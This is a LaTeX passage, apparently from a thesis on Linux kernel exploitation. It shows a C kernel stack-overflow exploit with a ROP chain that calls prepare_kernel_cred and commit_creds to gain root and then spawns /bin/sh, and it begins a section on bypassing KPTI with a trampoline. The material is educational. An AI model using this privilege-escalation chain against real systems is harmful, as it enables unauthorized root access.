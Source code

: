 \documentclass{masterthesis}
\begin{document}
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in the paragraph (quote the part with ktpi) the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we're going to look at is called a \emph{trampoline}.
Logically if a system call returns normally there must be a piece of code in the kernel that swaps the page tables to the userland, so we will try to reuse that code for our purpose.
This piece of code is called a trampoline and swaps the page tables, swapgs, and iretq.
\end{document}
